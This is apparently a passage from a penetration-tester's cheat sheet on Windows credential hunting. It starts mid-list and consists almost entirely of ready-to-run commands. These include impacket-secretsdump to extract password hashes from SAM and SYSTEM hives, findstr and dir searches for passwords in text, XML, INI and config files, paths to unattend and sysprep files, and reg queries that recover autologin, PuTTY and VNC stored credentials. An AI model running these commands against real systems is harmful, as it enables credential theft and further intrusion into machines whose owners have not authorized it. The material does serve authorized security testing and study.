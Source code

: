 - Obtaining Hashes from SYSTEM and SAM

```bash
impacket-secretsdump -system SYSTEM -sam SAM local #always mention local in the command
#Now a detailed list of hashes are displayed
```

## Passwords

### Sensitive files

```bash
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*
```

### Config files

```bash
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini
```

### Registry

```bash
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Putty keys
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there

### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  
```